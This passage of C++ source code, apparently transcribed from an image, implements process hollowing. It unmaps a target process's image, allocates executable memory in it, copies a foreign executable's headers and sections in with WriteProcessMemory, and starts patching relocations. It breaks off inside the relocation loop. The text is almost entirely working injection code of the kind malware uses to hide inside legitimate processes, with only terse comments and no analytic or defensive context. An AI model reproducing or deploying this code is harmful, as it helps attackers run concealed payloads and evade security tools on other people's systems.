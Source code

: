 ```cpp
	NtUnmapViewOfSection myNtUnmapViewOfSection = (NtUnmapViewOfSection)(GetProcAddress(GetModuleHandleA("ntdll"), "NtUnmapViewOfSection"));
	myNtUnmapViewOfSection(destProcess, destImageBase);

	// allocate new memory in destination image for the source image
	LPVOID newDestImageBase = VirtualAllocEx(destProcess, destImageBase, sourceImageSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	destImageBase = newDestImageBase;

	// get delta between sourceImageBaseAddress and destinationImageBaseAddress
	DWORD deltaImageBase = (DWORD)destImageBase - sourceImageNTHeaders->OptionalHeader.ImageBase;

	// set sourceImageBase to destImageBase and copy the source Image headers to the destination image
	sourceImageNTHeaders->OptionalHeader.ImageBase = (DWORD)destImageBase;
	WriteProcessMemory(destProcess, newDestImageBase, sourceFileBytesBuffer, sourceImageNTHeaders->OptionalHeader.SizeOfHeaders, NULL);

	// get pointer to first source image section
	PIMAGE_SECTION_HEADER sourceImageSection = (PIMAGE_SECTION_HEADER)((DWORD)sourceFileBytesBuffer + sourceImageDosHeaders->e_lfanew + sizeof(IMAGE_NT_HEADERS32));
	PIMAGE_SECTION_HEADER sourceImageSectionOld = sourceImageSection;
	int err = GetLastError();

	// copy source image sections to destination
	for (int i = 0; i < sourceImageNTHeaders->FileHeader.NumberOfSections; i++)
	{
		PVOID destinationSectionLocation = (PVOID)((DWORD)destImageBase + sourceImageSection->VirtualAddress);
		PVOID sourceSectionLocation = (PVOID)((DWORD)sourceFileBytesBuffer + sourceImageSection->PointerToRawData);
		WriteProcessMemory(destProcess, destinationSectionLocation, sourceSectionLocation, sourceImageSection->SizeOfRawData, NULL);
		sourceImageSection++;
	}

	// get address of the relocation table
	IMAGE_DATA_DIRECTORY relocationTable = sourceImageNTHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC];
	
	// patch the binary with relocations
	sourceImageSection = sourceImageSectionOld;
	for (int i = 0; i < sourceImageNTHeaders->FileHeader.NumberOfSections; i++)
	{
		BYTE* relocSectionName = (BYTE*)".reloc";
		if (memcmp(sourceImageSection->Name, relocSectionName, 5) != 0) 
		{
			sourceImageSection++;
			continue;
		}

		DWORD sourceRelocationTableRaw = sourceImageSection->PointerToRawData;
		DWORD relocationOffset = 0;

		while (relocationOffset < relocationTable.Size) {
			PBASE_RELOCATION_BLOCK relocationBlock = (PBASE_RELOCATION_BLOCK)((DWORD)sourceFileBytesBuffer + sourceRelocationTableRaw + relocationOffset);
			relocationOffset += sizeof(BASE_RELOCATION_BLOCK);
			DWORD relocationEntryCount = (relocationBlock->BlockSize - sizeof(BASE_RELOCATION_BLOCK)) / sizeof(BASE_RELOCATION_ENTRY);
			PBASE_RELOCATION_ENTRY relocationEntries = (PBASE_RELOCATION_ENTRY)((DWORD)sourceFileBytesBuffer + sourceRelocationTableRaw + relocationOffset);

```